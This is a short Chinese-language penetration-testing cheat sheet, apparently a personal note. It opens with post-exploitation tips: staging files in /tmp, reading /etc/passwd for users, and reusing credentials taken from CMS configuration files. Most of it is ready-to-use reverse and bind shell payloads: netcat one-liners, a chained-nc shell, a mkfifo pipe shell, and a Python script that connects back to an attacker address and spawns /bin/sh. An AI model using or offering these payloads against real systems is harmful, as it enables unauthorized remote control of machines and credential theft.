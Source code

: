 
### 技巧

下载文件时到/tmp目录下

查看/etc/passwd,获取用户列表

CMS下的配置文件,读取数据库/配置信息中的用户凭据并重用

----

## 获取shell

### nc

reverse_shell:(绕过防火墙)

​	Kali:`nc -nvlp <LPORT>`

​	Victim:`nc <RHOST> <RPORT> [-e /bin/bash]`

---

bind_shell:

​	Victim:`nc -nvlp <LPORT> [-e /bin/bash]`

​	Kali:`nc <RHOST> <RPORT>`

---

**串联nc**:

Victim:	`nc <RHOST> <RPORT-1> | /bin/bash 2>&1 | nc <RHOST> <RPORT-2>`

---

**管道文件**:

`rm /tmp/qaq;mkfifo /tmp/qaq;cat /tmp/qaq | /bin/bash -i 2>&1 | nc <RHOST> <RPORT> > /tmp/qaq`

---

### python

```python
import socket,os,subprocess
RHOST='10.0.0.12'  # Change it
RPORT=4444  # Change it
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  # 创建一个TCP-socket对象
s.connect((RHOST,RPORT)) 	# 连接攻击者
os.dup2(s.fileno(),0)		# 复制链接符
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])  # 创建子进程调用SHELL
```

-----
